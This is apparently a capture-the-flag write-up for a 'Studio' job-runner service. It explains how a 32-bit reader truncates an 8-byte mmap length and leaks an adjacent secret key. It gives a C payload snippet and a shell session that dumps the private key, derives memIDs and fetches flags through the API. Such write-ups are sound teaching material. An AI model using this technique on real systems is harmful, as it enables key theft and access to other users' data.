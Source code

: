 # Studio

Service job handling algorithm:
1. Receive a binary file with the payload
2. Schedule a job with some monotonically increasing ID: time.Now().UnixNano()
3. Generate the memID: hash the job ID with the HMAC SHA256 function using the service secret key.
4. Allocate a shared memory region, identified by the generated memID
5. Spin up the container and execute the payload to write into the allocated shared memory region
6. After container exit, read the job result from the shared memory.
7. Deallocate the shared memory region

## Vulnerability

Service has a vulnerability in the 6th step of the main algorithm. Job result reader is the pre-generated 32-bit binary ([source code](https://github.com/HackerDom/ructf-2021/blob/main/services/studio/payload/main.c)). It executes the following algorithm:
1. Read the secret key to convert the integer jobID into the memID. `create_key` function performs `open()` followed by the `mmap()` to read the secret key into the process memory.
2. Read the shared memory region from the /dev/shm/memID and write it to the stdout

The reader uses the `shm_open` followed by `mmap` to read the job result. Job result is stored in the following format: [result_len (8bytes)][result_content (result_len bytes)].

Since the mmap has the size_t as the length in its signature and the binary is 32-bit, it will read only the first 4 bytes of the `result_len`. 
```sh
void *mmap(void *addr, size_t length, int prot, int flags,
                  int fd, off_t offset);
```
During the consecutive reading of the mapped memory region, the reader will try to read all the `result_len` bytes. This will result in the reading of the adjacent memory regions. The only thing left is to pick a good result_len so mmap will allocate us close to the mmap'ed `secret_key` a good spot in the process virtual address space. In this example, I use the 4295229444 = 2^32 (needed to read the process memory after the mmap'ed region) + 2^18 (needed to mmap near to the secret key) + 2^2 ("abc2" length).

```C
sploits/studio/payload/main.c:

    p = addr;
    len = strlen(to_write);
    size_t actual_len = 4295229444; // 2^32 (needed to read the process memory after the mmap'ed region) + 2^18 (needed to mmap near to the secret key) + 2^2 ("abc2" length)
    //write the length of the message to the header
    memcpy(p, &actual_len, sizeof(size_t));
    p += sizeof(size_t);
    //write the data to the memory
    memcpy(p, to_write, len);
```

```sh
# allocate the shared memory region
$ services/studio/allocmemory/allocmemory 1337 container-svc/secret.key
9C179F442AE6D1ED56581D1600148F1BFE3ED19C0E1BFD44DF404073D434DBEA

# execute the exploit payload
$ sploits/studio/payload/vuln 9C179F442AE6D1ED56581D1600148F1BFE3ED19C0E1BFD44DF404073D434DBEA ../../../services/studio/container-svc/secret.key

# demonstate that the exploit wrote the result length equal to 2^32 + 2^18 + 2^2 
$ hexdump /dev/shm/9C179F442AE6D1ED56581D1600148F1BFE3ED19C0E1BFD44DF404073D434DBEA
0000000 0004 0004 0001 0000 6261 3263 0000 0000
0000010 0000 0000 0000 0000 0000 0000 0000 0000
*
004e200

# launch the result reader
$ services/studio/getmemory/getmemory 1337 ../../../services/studio/container-svc/secret.key > exploit_out
Segmentation fault (core dumped)

# we have a full service private key now
$ grep -abo "BEGIN SERVICE PRIVATE KEY" exploit_out
266235:BEGIN SERVICE PRIVATE KEY

$ grep -abo "END SERVICE PRIVATE KEY" exploit_out
586268:END SERVICE PRIVATE KEY
```

That's it, the only thing left to do is to use the monotonicaly increasing jobID to generate the possible hashes:

```sh 
$ services/studio/generatekey/generatekey 1 expl_secret.key
8A858C4D98A0B04E1C6E4D2CF5991CA60D37F9DA1632CA9843537721B153B7E9
$ services/studio/generatekey/generatekey 2 expl_secret.key
32395190FE61DE2E0C73F0E9362D614F3FB2C7FD8D58E318D7E5DC40C3FAEFBC

And so on...
```

Then, use the generated memID's to seek for flags in the job results.
```sh 
curl --location --request GET 'http://localhost:8000/api/v1/jobs/270F6BC566D205B0D56E1B2F0135F5F1F205B35F8A2DD8726F59915C6CA592FF'
{'code': 200, 'msg': 'ok', 'data': {'run_id': '1633271220036678587', 'id': '270F6BC566D205B0D56E1B2F0135F5F1F205B35F8A2DD8726F59915C6CA592FF', 'status': 'success', 'result': 'OXR0D9NFITKRIK5QBGMPHAHYCY52ASD=', 'time_info': {'AllocMemStart': '2021-10-03T17:27:00.058709304+03:00', 'StartContainer': '2021-10-03T17:27:00.08080791+03:00', 'StopContainer': '2021-10-03T17:27:00.532870379+03:00', 'ReadMem': '2021-10-03T17:27:00.532870843+03:00', 'DeallocMem': '2021-10-03T17:27:00.538250621+03:00'}}}
```



